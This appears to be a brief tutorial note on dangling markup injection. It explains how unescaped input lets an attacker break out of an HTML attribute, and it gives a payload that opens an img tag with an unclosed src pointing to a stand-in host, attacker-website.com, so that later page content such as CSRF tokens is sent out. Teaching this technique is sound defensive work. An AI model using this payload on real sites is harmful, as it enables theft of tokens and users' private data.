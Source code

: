 # Dangling markup injection
## Explanation
 Suppose an application embeds attacker-controllable data into its responses in an unsafe way:

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

Suppose also that the application does not filter or escape the > or " characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context:

`"> `

Suppose that a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:

```html
"><img src='//attacker-website.com? 
```

 This payload creates an img tag and defines the start of a src attribute containing a URL on the attacker's server. Note that the attacker's payload doesn't close the src attribute, which is left "dangling". When a browser parses the response, it will look ahead until it encounters a single quotation mark to terminate the attribute. Everything up until that character will be treated as being part of the URL and will be sent to the attacker's server within the URL query string. Any non-alphanumeric characters, including newlines, will be URL-encoded.

The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. Depending on the application's functionality, this might include CSRF tokens, email messages, or financial data. 